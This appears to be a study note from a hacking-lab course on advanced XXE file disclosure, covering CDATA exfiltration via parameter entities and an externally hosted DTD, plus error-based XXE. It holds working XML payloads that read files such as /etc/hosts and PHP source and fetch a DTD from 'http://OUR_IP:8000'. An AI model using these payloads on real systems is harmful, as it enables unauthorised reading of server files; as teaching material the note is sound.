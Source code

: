# 🦑 Advanced File Disclosure

In some cases, the web application may not output any input values in some instances, so we may try to force it through errors.

### Advanced Exfiltration with CDATA

To output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.

We have to define a `begin` internal entity with `<![CDATA[`, an `end` internal entity with `]]>`, and then place our external entity file in between

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

if we reference the `&joined;` entity, it should contain our escaped data. However, `this will not work, since XML prevents joining internal and external entities`

To bypass this limitation, we can utilize `XML Parameter Entities`, a special type of entity that starts with a `%` character and can only be used within the DTD

```xml
<!ENTITY joined "%begin;%file;%end;">
```

```shell-session
ElFelixi0@htb[/htb]$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
ElFelixi0@htb[/htb]$ python3 -m http.server 8000
```

Now, we can reference our external entity (`xxe.dtd`) and then print the `&joined;` entity we defined above

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

<figure><img src="../../../../.gitbook/assets/image (1435).png" alt=""><figcaption></figcaption></figure>

### Error Based XXE

If the the web application does not write any output, we would have to look for displays runtime errors (e.g., PHP errors) and see if the app does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit.

Let's say we send malformed XML data to the app:

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

We see the web application to display an error, and it also revealed the web server directory, which we can use to read the source code of other files

To exploit this we need to host a DTD file that contains the following payload ->

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

In this case, `%nonExistingEntity;` does not exist, so the web application would throw an error saying that this entity does not exist, along with our joined `%file;` as part of the error.

Then we just need to call our hosted DTD script ->

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

_**Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').**_

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>
